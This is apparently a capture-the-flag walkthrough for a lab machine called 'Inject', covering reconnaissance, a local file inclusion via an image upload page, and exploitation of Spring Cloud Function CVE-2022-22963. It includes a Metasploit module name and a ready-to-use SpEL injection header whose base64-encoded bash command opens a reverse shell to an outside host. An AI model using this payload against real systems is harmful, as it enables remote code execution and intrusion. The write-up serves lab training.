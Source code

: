 First step we need to do is, recon.
```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We can see there complity nothing, let's go into page. Where can see just regular page for CTF, nothing working. Let's do directory enumeration.
```
blogs                   [Status: 200, Size: 5371, Words: 1861, Lines: 113, Duration: 86ms]
environment             [Status: 500, Size: 712, Words: 27, Lines: 1, Duration: 76ms]
error                   [Status: 500, Size: 106, Words: 3, Lines: 1, Duration: 63ms]
register                [Status: 200, Size: 5654, Words: 1053, Lines: 104, Duration: 429ms]
upload                  [Status: 200, Size: 1857, Words: 513, Lines: 54, Duration: 248ms]
```
We can see intresting directory, upload. Let's look on it
We can upload image, and view you image. 

![image](https://github.com/Anogota/Inject/assets/143951834/f371f176-25eb-4390-9715-0663d030e8d4)

Let's look close on the view your image, turn on burp and intercept the traffic.

And i did LFI

![image](https://github.com/Anogota/Inject/assets/143951834/64cfc9f5-d46c-42d3-acc4-e20bb34b8907)

We need now more dig to find more intresting. After few min i found intresting file.

![image](https://github.com/Anogota/Inject/assets/143951834/233e0643-5063-4d94-9769-84b606fa3604)

Now we know what kind of version working on the server, this is a:
```
<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
```
Let's search something about it, maybe we will find CVE for this verion.
I will show two ways, how get a reverse shell.
First will be msfconsole. This is a module what's give you a reverse-shell: ```exploit/multi/http/spring_cloud_function_spel_injection``` This is a way for noob, by this you don't learn anything.

![image](https://github.com/Anogota/Inject/assets/143951834/747fb917-4fd0-4e6d-b177-8960e5ca1ce1)

And you get a shell, let's now do secend way.
Intercept a traffic and go to reapter.
Then change request method to POST, write ```spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41LzkwMDEgMD4mMQo=}|{base64,-d}|{bash,-i}")``` I little bit change it, i got this from ```https://github.com/Kirill89/CVE-2022-22963-PoC/tree/master``` but rember to change it the base64, inside this in bash reverse-shell you can get it by, insert in terminal 

![image](https://github.com/Anogota/Inject/assets/143951834/8ca95f8f-3032-47a3-8444-2d99cab6e700)

And when you change everything insert this in intercept packiet in burp. and you got a shell

![image](https://github.com/Anogota/Inject/assets/143951834/bdee2cff-e1c1-4522-a53c-203650feadbf)
